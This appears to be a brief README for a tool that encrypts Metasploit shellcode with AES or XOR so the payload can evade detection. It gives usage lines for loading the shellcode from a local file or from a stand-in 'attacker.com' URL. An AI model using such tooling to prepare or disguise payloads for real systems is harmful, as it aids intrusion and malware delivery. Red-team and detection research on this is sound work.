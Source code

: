 # Shellcode Encrypter
This is a project which takes metasploit shellcode (.bin) file as an input and then encrypts it with AES using a randomly generated Key and IV.
The Shellcode can be imported from a URL or a path from Local Machine 
```
encrypter.exe -f <filename.bin> -<xor|aes256>
encrypter.exe -u <http://attacker.com/filename.bin> -<xor|aes256>
```
